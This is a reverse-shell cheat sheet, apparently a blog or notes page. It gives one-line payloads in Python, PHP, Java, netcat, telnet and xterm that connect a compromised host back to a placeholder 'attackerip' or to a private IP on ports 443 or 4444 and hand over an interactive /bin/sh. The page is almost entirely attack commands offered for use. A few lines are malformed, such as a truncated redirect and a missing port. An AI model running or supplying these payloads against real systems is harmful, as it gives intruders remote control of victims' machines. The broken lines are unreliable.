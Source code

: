 ### PYTHON Reverse Shell
{% highlight bash %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
 
### PHP Reverse Shell
{% highlight bash %}
php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

### JAVA Reverse Shell
{% highlight bash %}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

### NETCAT Reverse Shell
{% highlight bash %}
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443
 
# If the -e option is disabled, try this 
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/
 
# If you have the wrong version of netcat installed, try 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
{% endhighlight %}

### TELNET Reverse Shell
{% highlight bash %}
# If netcat is not available or /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
{% endhighlight %}

### XTERM Reverse Shell
{% highlight bash %}
 
# Start an open X Server on your system (:1 – which listens on TCP port 6001)
apt-get install xnest
Xnest :1
 
# Then remember to authorise on your system the target IP to connect to you
xterm -display 127.0.0.1:1
